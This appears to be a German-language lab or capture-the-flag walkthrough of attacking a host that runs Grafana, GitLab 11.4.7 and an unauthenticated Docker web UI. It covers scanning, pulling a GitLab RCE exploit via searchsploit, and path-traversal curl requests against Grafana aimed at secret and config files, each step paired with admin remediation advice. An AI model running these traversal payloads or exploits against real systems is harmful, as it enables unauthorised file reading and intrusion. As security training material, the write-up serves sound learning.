___ ___ __ __ __ __ __ ___ |__ |__ |__) |__) | / ` / \ \_/ | | \ |__ | |___ | \ | \ | \__, \__/ / \ | |__/ |___ by Ben "epi" Risher 🤓 ver: 2.11.0 ───────────────────────────┬────────────────────── 🎯 Target Url │ http://192.168.2.215:9000 🚀 Threads │ 50 📖 Wordlist │ /usr/share/seclists/Discovery/Web-Content/directory-list-2.2-medium.txt 👌 Status Codes │ [200, 301, 302] 💥 Timeout (secs) │ 7 🦡 User-Agent │ feroxbuster/2.11.0 💉 Config File │ /etc/feroxbuster/ferox-config.toml 🔎 Extract Links │ true 💲 Extensions │ [git, php, html, xml, zip, 7z, tar, bak, sql, py, pl, txt, jpg, jpeg, png, js, aac, ogg, flac, alac, wav, aiff, dsd, mp3, mp4, mkv, phtml] 🏁 HTTP methods │ [GET] 🔃 Recursion Depth │ 4 ───────────────────────────┴────────────────────── 🏁 Press [ENTER] to use the Scan Management Menu™ ────────────────────────────────────────────────── .... 301 GET 0l 0w 0c http://192.168.2.215:9000/assets/css/index.html --> ./ 301 GET 0l 0w 0c http://192.168.2.215:9000/assets/index.html --> ./ 301 GET 0l 0w 0c http://192.168.2.215:9000/assets/css/lib/index.html --> ./ 301 GET 0l 0w 0c http://192.168.2.215:9000/assets/img/index.html --> ./ 301 GET 0l 0w 0c http://192.168.2.215:9000/assets/css/app/index.html --> ./ 200 GET 5l 8w 113c http://192.168.2.215:9000/assets/js/min/ 301 GET 0l 0w 0c http://192.168.2.215:9000/assets/js/min/index.html --> ./ 301 GET 0l 0w 0c http://192.168.2.215:9000/assets/js/index.html --> ./ 200 GET 0l 0w 0c http://192.168.2.215:9000/version 301 GET 2l 3w 43c http://192.168.2.215:9000/assets --> http://192.168.2.215:9000/assets/ 301 GET 0l 0w 0c http://192.168.2.215:9000/assets/css --> css/ 200 GET 1l 63w 4658c http://192.168.2.215:9000/assets/js/min/clients/index.js 301 GET 0l 0w 0c http://192.168.2.215:9000/assets/js/min/clients --> clients/ 301 GET 0l 0w 0c http://192.168.2.215:9000/assets/js/lib --> lib/ 301 GET 0l 0w 0c http://192.168.2.215:9000/assets/css/lib --> lib/ 200 GET 1l 125w 9939c http://192.168.2.215:9000/assets/js/min/containers/statistics.js 301 GET 0l 0w 0c http://192.168.2.215:9000/assets/css/app --> app/ ...
**Analyse:** Ich navigiere im Browser zur Web-Oberfläche auf Port 9000. Das Bild zeigt die Hauptansicht, die eine Liste von Docker-Containern darstellt. Die Überschrift "containers | docker web-ui" bestätigt meine Vermutung. Die Liste zeigt 4 laufende Container mit ihren Namen, IDs, Kommandos, Port-Mappings und verwendeten Images: `boring_tharp` (Python Debug Server, Port 8080, Image `whalesalad/docker-debug`), `gitlab-docker_web_1` (GitLab, Ports 5022, 50443, 5080, Image `gitlab/gitlab-ce:11.4.7-ce.0`), `grafana` (Grafana, Port 3000, Image `grafana/grafana-enterprise:8.3.0-ubuntu`), und `peaceful_jennings` (Docker WebUI selbst, Port 9000, Image `pottava/docker-webui`). Dies ist eine sehr detaillierte Übersicht der Container-Architektur des Zielsystems.
**Bewertung:** Dieser Fund ist extrem wertvoll! Er erklärt die Vielzahl der offenen Ports – jeder Dienst läuft in einem separaten Docker-Container. Ich kenne nun die genauen Images und Versionen der Container, was für die Suche nach Container-spezifischen Schwachstellen oder Escape-Vektoren nützlich ist. Ich sehe die interne Struktur und die Beziehungen zwischen den Diensten. Die GitLab-Version (11.4.7) und die Grafana-Version (8.3.0-ubuntu) werden hier bestätigt.
**Empfehlung (Pentester):** Analysieren Sie die gelisteten Container und ihre Images auf bekannte Schwachstellen. Untersuchen Sie die Docker Web-UI auf Port 9000 auf ungesicherte Funktionen, die die Interaktion mit Docker ermöglichen (z.B. Ausführen von Befehlen in Containern, Starten neuer Container).
**Empfehlung (Admin):** Stellen Sie sicher, dass Management-Oberflächen wie die Docker Web-UI (falls überhaupt notwendig) nicht öffentlich zugänglich sind und eine starke Authentifizierung erfordern. Überprüfen Sie die Images auf veraltete Software.
Analyse der Docker Web-UI auf Port 9000:
http://192.168.2.215:9000/ docker web-ui containers logs stats | images | clients 4 containers ID Names Command Ports Repository & Tags Status 3573 boring_tharp python /app/a.. 0.0.0.0:8080->8080/tcp whalesalad/docker-debug Up an hour 12e8 gitlab-docker_web_1 /assets/wrapp.. 0.0.0.0:5022->22/tcp,0.0.0.0:50443->443/tcp,0.0.0.0:5080->80/tcp gitlab/gitlab-ce:11.4.7-ce.0 Up an hour (healthy) c2f5 grafana /run.sh 0.0.0.0:3000->3000/tcp grafana/grafana-enterprise:8.3.0-ubuntu Up an hour 4001 peaceful_jennings docker-webui .. 0.0.0.0:9000->9000/tcp pottava/docker-webui Up an hour
**Analyse:** Ich habe die Details eines spezifischen Docker-Images abgerufen, wahrscheinlich über die Docker Web-UI auf Port 9000 oder durch manuelle Analyse. Das Listing zeigt Metadaten zum Image `ubuntu:18.04`, einschließlich seiner ID, Erstellungsdatum, Konfiguration (Hostname, PATH, CMD) und RootFS-Layer.
**Bewertung:** Die Möglichkeit, Image-Details abzurufen, bestätigt eine gewisse Interaktion mit der Docker-Engine über die Web-UI (oder eine andere Methode). Das Wissen um das `ubuntu:18.04` Image ist nützlich, da es als Basis für Container-Ausbrüche oder zur Ausführung von Befehlen in neuen Containern verwendet werden kann, falls die Docker-API oder die UI-Funktionalität dies zulässt. Die Image-ID `sha256:71cb16d32be4a95065b4fa1c8841a6f4c0098de7be0a90e14519098412d48356` ist die eindeutige Referenz.
**Empfehlung (Pentester):** Nutzen Sie die gefundene Image-ID, um das Image ggf. selbst herunterzuladen und offline zu analysieren. Testen Sie, ob Sie neue Container basierend auf diesem oder anderen Images starten können, eventuell mit gemountetem Host-Dateisystem.
**Empfehlung (Admin):** Beschränken Sie den Zugriff auf die Docker-API und Management-Oberflächen streng. Überprüfen Sie die Images auf sensible Konfigurationen oder Dateien, die beim Bauen unbeabsichtigt hinzugefügt wurden.
ubuntu:18.04 { "Id": "sha256:71cb16d32be4a95065b4fa1c8841a6f4c0098de7be0a90e14519098412d48356", "RepoTags": [ "ubuntu:18.04" ], "Created": "2022-10-04T23:35:04.927324933Z", "Container": "35c51f413ad633f9fac7490dfcbd26f5487c87206fd611be09c868d04cebc1b9", "ContainerConfig": { "Hostname": "35c51f413ad6", "Env": [ "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin" ], "Cmd": [ "/bin/sh", "-c", "#(nop) ", "CMD [\"bash\"]" ], "Image": "sha256:768c80f47ccbda97534fb527ed3082a6b1a6330b5213d0de6c2059ad8322a98b", "Entrypoint": null }, "DockerVersion": "20.10.12", "Config": { "Env": [ "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin" ], "Cmd": [ "bash" ], "Image": "sha256:768c80f47ccbda97534fb527ed3082a6b1a6330b5213d0de6c2059ad8322a98b", "Entrypoint": null }, "Architecture": "amd64", "Size": 63146043, "VirtualSize": 63146043, "RepoDigests": [ "ubuntu@sha256:40b84b75884ff39e4cac4bf62cb9678227b1fbf9dbe3f67ef2a6b073aa4bb529" ], "RootFS": { "Type": "layers", "Layers": [ "sha256:b9b23e6545749dab77233e9c3ce2237e6705cbd30de01e11f529b0e49c155cd5" ] }, "Os": "linux" }
**Analyse:** Ich habe Wappalyzer, eine Browser-Erweiterung zur Identifizierung von Technologien auf Webseiten, auf den Webdiensten ausgeführt und dokumentiere die Ergebnisse. Dies gibt mir einen Überblick über die verwendeten Frameworks, Bibliotheken und Sprachen.
**Bewertung:** Wappalyzer bestätigte das Vorhandensein von Grafana und GitLab sowie Technologien wie React, Vue.js, Ruby on Rails (wahrscheinlich für GitLab), Webpack, jQuery, Bootstrap. Dies ist eine nützliche Ergänzung zu den Nmap- und Feroxbuster-Ergebnissen und bestätigt die Komplexität der Web-Umgebung. Das Wissen um die spezifischen Versionen von Bibliotheken (z.B. jQuery 1.12.4, Bootstrap 4.1.1) kann für die Suche nach clientseitigen Schwachstellen relevant sein.
**Empfehlung (Pentester):** Verwenden Sie Tools wie Wappalyzer, um schnell die eingesetzten Technologien zu identifizieren. Dies hilft bei der Fokussierung der Recherche auf bekannte Schwachstellen in diesen spezifischen Versionen.
**Empfehlung (Admin):** Führen Sie regelmäßige Audits der eingesetzten Web-Technologien durch und halten Sie Frameworks und Bibliotheken aktuell, um bekannte Schwachstellen zu vermeiden. Minimieren Sie die Information über verwendete Versionen in Headern oder Metadaten.
Wappalyzer: ---------------------------------- JavaScript Frameworks React 15.6.1 Vue.js Ticketsysteme GitLab Web Frameworks Ruby on Rails 50% sure Sonstiges Webpack Open Graph Programmiersprache Ruby 50% sure Entwicklungswerkzeuge GitLab JavaScript Bibliotheken core-js 2.5.7 jQuery 1.12.4 Select2 UI Frameworks Bootstrap 4.1.1
Web Enumeration
**Analyse:** Ich führe Nikto-Scans auf den neu entdeckten HTTP-Diensten durch, beginnend mit Grafana auf Port 3000.
**Bewertung:** Der Nikto-Scan auf Port 3000 bestätigt, dass es sich um Grafana handelt. Er meldet eine Weiterleitung von `/` auf `/login` und findet den `/robots.txt` Eintrag, der `Disallow: /` enthält. Es werden keine kritischen Webserver-Schwachstellen berichtet, abgesehen vom fehlenden `X-Content-Type-Options` Header. Die relevante Information ist die Bestätigung, dass `/login/` existiert, was zum Anmelden einlädt.
**Empfehlung (Pentester):** Der Fokus liegt weiterhin auf der Login-Funktionalität. Suchen Sie nach Standard-Anmeldedaten oder Schwachstellen, die eine Umgehung der Authentifizierung ermöglichen.
**Empfehlung (Admin):** Implementieren Sie Sicherheits-Header. Überprüfen Sie die Grafana-Konfiguration auf ungesicherte Endpunkte oder Standard-Anmeldedaten.
└─# nikto -h http://192.168.2.215:3000
- Nikto v2.5.0 --------------------------------------------------------------------------- + Target IP: 192.168.2.215 + Target Hostname: 192.168.2.215 + Target Port: 3000 + Start Time: 2025-06-06 23:13:25 (GMT2) --------------------------------------------------------------------------- + Server: No banner retrieved + Root page / redirects to: /login + No CGI Directories found (use '-C all' to force check all possible dirs) + /robots.txt: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: [Link: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/ | Ziel: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/] + /login/: This might be interesting. + 8103 requests: 0 error(s) and 2 item(s) reported on remote host + End Time: 2025-06-06 23:14:04 (GMT2) (39 seconds) --------------------------------------------------------------------------- + 1 host(s) tested
**Analyse:** Ich führe einen Nikto-Scan auf dem Docker Web UI auf Port 9000 durch.
**Bewertung:** Der Scan auf Port 9000 meldet fehlende Sicherheits-Header (`X-Frame-Options`, `X-Content-Type-Options`) und dass der Server mit ungültigen HTTP-Methoden gültig antwortet, was auf eine ungewöhnliche Implementierung hindeutet. Es werden keine spezifischen kritischen Schwachstellen gemeldet, die direkt ausnutzbar wären. Der Dienst hat keine Login-Seite im klassischen Sinne, wie aus der Nmap-Ausgabe hervorging ("containers | docker web-ui" im Titel), was bedeutet, er könnte ungeschützt sein.
**Empfehlung (Pentester):** Untersuchen Sie die Funktionalität der Docker Web UI auf Port 9000 auf unauthentifizierten Zugriff und die Möglichkeit, mit Containern oder Images zu interagieren. Dies scheint eine potenzielle Angriffsfläche zu sein, da kein Login erforderlich zu sein scheint.
**Empfehlung (Admin):** Sichern Sie den Zugriff auf Management-Schnittstellen wie diese Docker Web UI. Standardmäßig sollten sie nicht öffentlich zugänglich sein.
└─# nikto -h http://192.168.2.215:9000
- Nikto v2.5.0 --------------------------------------------------------------------------- + Target IP: 192.168.2.215 + Target Hostname: 192.168.2.215 + Target Port: 9000 + Start Time: 2025-06-06 23:14:28 (GMT2) --------------------------------------------------------------------------- + Server: No banner retrieved + /: The anti-clickjacking X-Frame-Options header is not present. See: [Link: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options | Ziel: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options] + /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: [Link: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/ | Ziel: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/] + No CGI Directories found (use '-C all' to force check all possible dirs) + /: Web Server returns a valid response with junk HTTP methods which may cause false positives. + 8104 requests: 0 error(s) and 3 item(s) reported on remote host + End Time: 2025-06-06 23:14:57 (GMT2) (29 seconds) --------------------------------------------------------------------------- + 1 host(s) tested
**Analyse:** Ich führe einen Nikto-Scan auf der GitLab-Instanz auf Port 5080 durch.
**Bewertung:** Der Nikto-Scan auf Port 5080 identifiziert einige interessante Punkte auf der Nginx-Basis. Es werden fehlende Sicherheits-Header bemängelt. Es findet Endpunkte wie `/help/`, `/public/`, `/search.vts` und `/help.php`, die für einen Angreifer von Interesse sein könnten. Die Einträge in `robots.txt` werden ebenfalls als potenziell interessant hervorgehoben. Die Header `x-runtime` und `x-request-id` sind anwendungsspezifische Header von GitLab. Der kritischste Punkt bleibt die GitLab-Version 11.4.7 selbst.
**Empfehlung (Pentester):** Konzentrieren Sie sich auf bekannte Schwachstellen in GitLab 11.4.7. Die gefundenen Endpunkte (z.B. `/help/`, `/public/`) sollten weiter untersucht werden, insbesondere nach LFI/RFI oder anderen Schwachstellen, die ohne Authentifizierung ausgenutzt werden können.
**Empfehlung (Admin):** Aktualisieren Sie GitLab umgehend. Überprüfen Sie die Konfiguration von Nginx und GitLab auf ungesicherte Endpunkte oder Informationslecks. Implementieren Sie Sicherheits-Header.
└─# nikto -h http://192.168.2.215:5080
- Nikto v2.5.0 --------------------------------------------------------------------------- + Target IP: 192.168.2.215 + Target Hostname: 192.168.2.215 + Target Port: 5080 + Start Time: 2025-06-06 23:15:55 (GMT2) --------------------------------------------------------------------------- + Server: nginx + /: Uncommon header 'x-runtime' found, with contents: 0.012865. + /: Uncommon header 'x-request-id' found, with contents: b866f93b-28f1-4044-9896-b635a8a2f5ba. + Root page / redirects to: [Link: http://192.168.2.215/users/sign_in | Ziel: http://192.168.2.215/users/sign_in] + No CGI Directories found (use '-C all' to force check all possible dirs) + /robots.txt: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: [Link: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/ | Ziel: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/] + /robots.txt: Entry '/users/sign_in/' is returned a non-forbidden or redirect HTTP code (200). See: [Link: https://portswigger.net/kb/issues/00600600_robots-txt-file | Ziel: https://portswigger.net/kb/issues/00600600_robots-txt-file] + /robots.txt: Entry '/search/' is returned a non-forbidden or redirect HTTP code (200). See: [Link: https://portswigger.net/kb/issues/00600600_robots-txt-file | Ziel: https://portswigger.net/kb/issues/00600600_robots-txt-file] + /robots.txt: Entry '/autocomplete/users/' is returned a non-forbidden or redirect HTTP code (200). See: [Link: https://portswigger.net/kb/issues/00600600_robots-txt-file | Ziel: https://portswigger.net/kb/issues/00600600_robots-txt-file] + /robots.txt: Entry '/help/' is returned a non-forbidden or redirect HTTP code (200). See: [Link: https://portswigger.net/kb/issues/00600600_robots-txt-file | Ziel: https://portswigger.net/kb/issues/00600600_robots-txt-file] + /robots.txt: contains 53 entries which should be manually viewed. See: [Link: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt | Ziel: https://developer.mozilla.org/en-US/docs/Glossary/Robots.txt] + /help/: Help directory should not be accessible. + /public/: This might be interesting. + /search.vts: This might be interesting. + /help/home.html: Uncommon header 'x-gitlab-custom-error' found, with contents: 1. + /help.php: A help file was found. + /.well-known/openid-configuration: OpenID Provider Configuration Information. + 8157 requests: 0 error(s) and 14 item(s) reported on remote host + End Time: 2025-06-06 23:18:39 (GMT2) (164 seconds) --------------------------------------------------------------------------- + 1 host(s) tested
**Analyse:** Ich überprüfe erneut die `robots.txt` Datei für den Grafana-Dienst auf Port 3000, wie bereits im Nmap-Scan erwähnt.
**Bewertung:** Die Datei ist sehr kurz und enthält nur `User-agent: *` und `Disallow: /`. Dies ist eine sehr restriktive `robots.txt`, die Crawlern im Wesentlichen anweist, die gesamte Website nicht zu indizieren. Für einen Angreifer ist die Hauptinformation hier, dass der Betreiber nicht möchte, dass die Seite indiziert wird, was auf sensible Inhalte hindeuten könnte, aber keine direkte Schwachstelle darstellt.
**Empfehlung (Pentester):** Dokumentieren Sie die `robots.txt`, aber legen Sie den Fokus auf interaktive Bereiche wie die Login-Seite oder auf Endpunkte, die für bekannte Schwachstellen relevant sind.
**Empfehlung (Admin):** Stellen Sie sicher, dass `robots.txt` korrekt konfiguriert ist, aber verlassen Sie sich nicht darauf als Sicherheitsmaßnahme.
Analyse der `robots.txt` Datei für den Grafana-Dienst auf Port 3000:
http://192.168.2.215:3000/robots.txt User-agent: * Disallow: /
**Analyse:** Ich navigiere zur Hauptseite der Docker Web UI auf Port 9000 und dokumentiere die Ansicht. Die Seite zeigt eine Liste der laufenden Container, was die Informationen aus dem Nmap-Scan bestätigt. Die Liste enthält die ID, Namen, Kommandos, Port-Mappings und Images der Container, die ich bereits analysiert habe.
**Bewertung:** Diese unauthentifizierte Web-Oberfläche, die detaillierte Informationen über die laufenden Docker-Container preisgibt, ist eine beachtliche Schwachstelle. Ich kann sehen, welche Dienste in welchen Containern laufen, ihre Images und Port-Mappings. Dies liefert mir wertvolle Informationen für die weitere Enumeration und potenzielle Container-Escape-Versuche, falls die UI interaktive Funktionen ohne Authentifizierung bietet.
**Empfehlung (Pentester):** Untersuchen Sie die Docker Web-UI auf Port 9000 auf alle interaktiven Funktionen (z.B. Logs ansehen, Container starten/stoppen/exec, Images verwalten). Dies ist eine sehr vielversprechende Angriffsfläche.
**Empfehlung (Admin):** **Dringend:** Entfernen Sie die ungeschützte Docker Web UI auf Port 9000 aus dem Netzwerkzugriff. Docker Management-Schnittstellen sollten niemals öffentlich zugänglich sein und immer eine starke Authentifizierung erfordern.
Analyse der Docker Web UI auf Port 9000 und Übersicht der laufenden Container:
http://192.168.2.215:9000/ docker web-ui containers logs stats | images | clients 4 containers ID Names Command Ports Repository & Tags Status 3573 boring_tharp python /app/a.. 0.0.0.0:8080->8080/tcp whalesalad/docker-debug Up an hour 12e8 gitlab-docker_web_1 /assets/wrapp.. 0.0.0.0:5022->22/tcp,0.0.0.0:50443->443/tcp,0.0.0.0:5080->80/tcp gitlab/gitlab-ce:11.4.7-ce.0 Up an hour (healthy) c2f5 grafana /run.sh 0.0.0.0:3000->3000/tcp grafana/grafana-enterprise:8.3.0-ubuntu Up an hour 4001 peaceful_jennings docker-webui .. 0.0.0.0:9000->9000/tcp pottava/docker-webui Up an hour
Initial Access
**Analyse:** Basierend auf der Feroxbuster-Ausgabe auf Port 5080, die Endpunkte wie `/users/root/projects.json` zeigte, versuche ich, diese Endpunkte über die GitLab API (oder was auch immer dahintersteckt) abzufragen. Ich benutze `curl -s` und pipe die JSON-Ausgabe an `jq .` zur besseren Lesbarkeit. Dies ist ein Versuch, öffentlich zugängliche API-Endpunkte für Informationslecks zu finden. Parallel dazu versuche ich, das Repository `root/internal-stuff.git` von der GitLab-Instanz (Port 5080) mit `git clone` zu klonen, um zu sehen, ob es öffentlich zugänglich ist oder Anmeldedaten erfordert.
**Bewertung:** Die Abfrage von `/users/root/projects.json` zeigt ein leeres Ergebnis (`"count": 0`), was bedeutet, dass es keine öffentlich sichtbaren Projekte für den Benutzer "root" gibt. Der `git clone` Versuch schlägt fehl, da die Authentifizierung fehlschlägt (Ich breche die Passwortabfrage ab). Dies bestätigt, dass ich Anmeldedaten benötige, um auf Projekte zuzugreifen oder die API weiter zu nutzen. Der Weg über öffentlich zugängliche API-Endpunkte scheint blockiert zu sein. Der Fokus muss auf die Erlangung von Anmeldedaten oder die Ausnutzung einer Schwachstelle, die keine Authentifizierung erfordert (z.B. auf Grafana Port 3000), gelegt werden.
**Empfehlung (Pentester):** Da der direkte Zugriff auf GitLab-Projekte oder API-Endpunkte ohne Authentifizierung nicht möglich ist, konzentrieren Sie sich darauf, Anmeldedaten zu finden. Überprüfen Sie alle anderen gefundenen Dienste (Grafana, Docker UI) auf Schwachstellen, die Anmeldedaten oder einen initialen Shell-Zugriff ermöglichen könnten.
**Empfehlung (Admin):** Stellen Sie sicher, dass GitLab-API-Endpunkte korrekt gesichert sind und keine sensiblen Informationen ohne Authentifizierung preisgeben. Private Repositorys sollten nicht öffentlich klonbar sein.
└─# curl -s http://192.168.2.215:5080/users/root/projects.json | jq .
{ "html": "<div class=\"js-projects-list-holder\">\n<div class=\"nothing-here-block\">No projects found</div>\n</div>\n", "count": 0 }
└─# git clone http://192.168.2.215:5080/root/internal-stuff.git
Klone nach 'internal-stuff'... Username for 'http://192.168.2.215:5080': ^C
**Analyse:** Angesichts der identifizierten GitLab-Version 11.4.7 und der Tatsache, dass ich Anmeldedaten benötige, suche ich auf Exploit-Datenbanken nach bekannten Schwachstellen für diese Version, insbesondere nach Remote Code Execution (RCE)-Exploits. Ich verwende `searchsploit`, das lokale Exploit-Datenbanken durchsucht. Der Befehl `searchsploit gitlab 11.4` sucht nach Einträgen, die "gitlab" und "11.4" im Titel enthalten.
**Bewertung:** **Wichtiger Fund!** Searchsploit listet zwei authentifizierte RCE-Exploits für GitLab 11.4.7 auf (Exploit-DB IDs 49257 und 49334). Einer davon (`49334.py`) ist ein Python-Skript und wird als vielversprechend für eine automatisierte Ausnutzung angesehen, sobald Anmeldedaten verfügbar sind. Es gibt auch einen Passwort-Reset-Exploit für neuere Versionen, der hier nicht relevant ist. Die RCE-Exploits sind authentifiziert, was bedeutet, ich benötige weiterhin einen gültigen Login.
**Empfehlung (Pentester):** Fokussieren Sie sich darauf, Anmeldedaten für GitLab zu erhalten, um diesen authentifizierten RCE-Exploit nutzen zu können. Speichern Sie das Exploit-Skript lokal und machen Sie sich mit dessen Usage vertraut.
**Empfehlung (Admin):** Aktualisieren Sie GitLab umgehend auf eine Version, die nicht von diesen RCE-Schwachstellen betroffen ist.
Suche nach Exploits für GitLab Version 11.4.7 mit Searchsploit:
└─# searchsploit gitlab 11.4
------------------------------------------------------------ --------------------------------- Exploit Title | Path ------------------------------------------------------------ --------------------------------- GitLab 11.4.7 - RCE (Authenticated) (2) | ruby/webapps/49334.py GitLab 11.4.7 - Remote Code Execution (Authenticated) (1) | ruby/webapps/49257.py GitLab CE/EE < 16.7.2 - Password Reset | java/remote/51889.txt ------------------------------------------------------------ --------------------------------- Shellcodes: No Results
**Analyse:** Ich kopiere das vielversprechendste Python-Exploit-Skript für die Authentifizierte RCE in GitLab 11.4.7 (Exploit-DB ID 49334) in mein aktuelles Verzeichnis, um es später zu nutzen. Der Befehl `searchsploit -m 49334` kopiert das Skript.
**Bewertung:** Ich habe nun das notwendige Werkzeug, um die RCE-Schwachstelle in GitLab auszunutzen, sobald ich über gültige Anmeldedaten verfüge. Der nächste Schritt ist also klar: Ich muss einen Weg finden, mich bei GitLab anzumelden.
**Empfehlung (Pentester):** Laden Sie relevante Exploits herunter und bereiten Sie sie vor, sobald Sie potenzielle Schwachstellen identifiziert haben.
**Empfehlung (Admin):** Verfolgen Sie Exploit-Datenbanken und Sicherheitshinweise für die von Ihnen eingesetzte Software und patchen Sie umgehend, wenn Schwachstellen (insbesondere RCE) veröffentlicht werden.
└─# searchsploit -m 49334
Exploit: GitLab 11.4.7 - RCE (Authenticated) (2) URL: [Link: https://www.exploit-db.com/exploits/49334 | Ziel: https://www.exploit-db.com/exploits/49334] Path: /usr/share/exploitdb/exploits/ruby/webapps/49334.py Codes: CVE-2018-19585, CVE-2018-19571 Verified: False File Type: Python script, ASCII text executable, with very long lines (359) Copied to: /root/49334.py
**Analyse:** Ich beginne mit der Untersuchung des Grafana-Dienstes auf Port 3000 auf eine Local File Inclusion (LFI) Schwachstelle. Ich teste einen Path-Traversal-Payload (`../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml`) im URL-Pfad, speziell in einem mutmaßlichen Endpunkt wie `/public/plugins/welcome/`, da Webanwendungen oft versuchen, Dateien basierend auf URL-Segmenten einzubinden. Die Option `--path-as-is` in `curl` ist wichtig, um die Dots (`..`) und Schrägstriche (`/`) nicht normalisieren zu lassen. Ich versuche, eine Konfigurationsdatei von GitLab zu lesen, da diese oft Anmeldedaten enthalten.
**Bewertung:** Der erste Versuch, die `secrets.yml` von GitLab über die vermutete Grafana-LFI zu lesen, schlägt fehl. Die Fehlermeldung `"message": "Plugin file not found"` deutet darauf hin, dass der Pfad nicht korrekt aufgelöst wird oder dass der Endpunkt `/public/plugins/welcome/` nicht für LFI anfällig ist, oder dass der Dateipfad nicht existiert oder nicht lesbar ist. Dies war ein erster Testversuch mit einer Hypothese.
**Empfehlung (Pentester):** Testen Sie verschiedene Endpunkte und verschiedene Path-Traversal-Payloads. Versuchen Sie, Systemdateien wie `/etc/passwd` zu lesen, um zu sehen, ob LFI überhaupt möglich ist und wie sich die Anwendung bei erfolgreichem oder fehlgeschlagenem Dateizugriff verhält.
**Empfehlung (Admin):** Implementieren Sie eine strikte Validierung von Dateipfaden in URL-Parametern oder Pfadsegmenten, um Path-Traversal-Angriffe zu verhindern.
Versuch, GitLab-Konfigurationsdateien über eine potenzielle LFI in Grafana zu lesen:
└─# curl --path-as-is "http://192.168.2.215:3000/public/plugins/welcome/../../../../../../../../opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml"
{ "message": "Plugin file not found" }
**Analyse:** Ich teste einen weiteren GitLab-Konfigurationspfad (`../../../../../../../../etc/gitlab/gitlab-secrets.json`) über dieselbe mutmaßliche Grafana-LFI Schwachstelle.
**Bewertung:** Auch dieser Versuch schlägt fehl mit derselben Fehlermeldung `"message": "Plugin file not found"`. Das verstärkt die Vermutung, dass entweder dieser spezifische Pfad in der Grafana-Instanz nicht existiert oder nicht lesbar ist, oder dass der `/public/plugins/welcome/` Endpunkt doch nicht für LFI anfällig ist. Ich muss die LFI-Anfälligkeit selbst noch verifizieren.
**Empfehlung (Pentester):** Als Nächstes die LFI-Anfälligkeit selbst verifizieren, z.B. durch den Versuch, `/etc/passwd` zu lesen, was auf nahezu jedem Linux-System existiert und lesbar ist.
**Empfehlung (Admin):** (Wiederholung der Empfehlung zur Validierung von Dateipfaden).
└─# curl --path-as-is "http://192.168.2.215:3000/public/plugins/welcome/../../../../../../../../etc/gitlab/gitlab-secrets.json"
{ "message": "Plugin file not found" }
**Analyse:** Ich betrachte den Source Code der Grafana-Login-Seite auf Port 3000. Der Text im Bericht zeigt einen Ausschnitt des Codes mit einer JSON-Struktur, die verschiedene "panels" auflistet.
**Bewertung:** Der Source Code der Login-Seite selbst gibt in diesem Ausschnitt keine offensichtlichen Hinweise auf Schwachstellen. Die gelisteten Panels sind Standardkomponenten von Grafana. Wichtiger ist die allgemeine Struktur der URL, die auf ein Plugin-Verzeichnis hindeutet (`/public/plugins/welcome/`), das ich für LFI-Versuche genutzt habe.
**Empfehlung (Pentester):** Überprüfen Sie den gesamten Source Code auf Hinweise zu Endpunkten, Parametern, API-Schlüsseln oder Kommentaren, die nützliche Informationen enthalten könnten.
**Empfehlung (Admin):** Vermeiden Sie es, unnötige oder sensible Informationen im öffentlich zugänglichen Source Code zu belassen.
Analyse des Source Codes der Grafana-Login-Seite:
view-source:http://192.168.2.215:3000/login "panels":{ "alertlist":{ ... }, "annolist":{ ... }, "barchart":{ ... }, "bargauge":{ ... }, "dashlist":{ ... }, "graph":{ ... }, "heatmap":{ ... } }
**Analyse:** Ich verifiziere nun die LFI-Anfälligkeit auf dem Grafana-Dienst, indem ich versuche, die Standard-Systemdatei `/etc/grafana/grafana.ini` zu lesen. Ich verwende denselben Ansatz mit `curl --path-as-is` und Path-Traversal-Payloads, diesmal ausgehend von einem anderen Endpunkt, der ebenfalls in den Grafana-Plugins zu liegen scheint: `/public/plugins/alertlist/`.
**Bewertung:** **Erfolg!** Diesmal gibt die Anfrage den Inhalt der Datei `/etc/grafana/grafana.ini` zurück. Dies beweist eine ausnutzbare Local File Inclusion (LFI) Schwachstelle auf dem Grafana-Dienst über den Pfad `/public/plugins/alertlist/`. Ich kann nun beliebige Dateien auf dem System lesen, auf die der Grafana-Prozess Zugriff hat. Die Datei `grafana.ini` ist eine Konfigurationsdatei, die potenziell sensible Informationen wie Anmeldedaten für Datenbanken oder externe Dienste enthält. Besonders interessant sind die auskommentierten Standard-Anmeldedaten (`admin_user = admin`, `admin_password = admin`) und der `secret_key`. Während die Standard-Anmeldedaten wahrscheinlich geändert wurden, ist der `secret_key` potenziell nützlich.
**Empfehlung (Pentester):** Nutzen Sie diese LFI, um weitere System- und Konfigurationsdateien zu lesen, die Anmeldedaten oder andere nützliche Informationen enthalten könnten (z.B. `/etc/passwd`, SSH-Schlüssel, andere Konfigurationsdateien). Der gefundene `secret_key` könnte für andere Angriffe relevant sein.
**Empfehlung (Admin):** **Dringend:** Beheben Sie die LFI-Schwachstelle im Grafana-Dienst. Überprüfen Sie die Konfiguration, die den Dateizugriff über `/public/plugins/` ermöglicht. Stellen Sie sicher, dass sensible Konfigurationsdateien restriktive Dateisystemberechtigungen haben. Standard-Anmeldedaten müssen immer geändert werden.
Erfolgreiche Ausnutzung der LFI in Grafana zum Lesen der Konfigurationsdatei `/etc/grafana/grafana.ini`:
└─# curl --path-as-is "http://192.168.2.215:3000/public/plugins/alertlist/../../../../../../../../etc/grafana/grafana.ini"
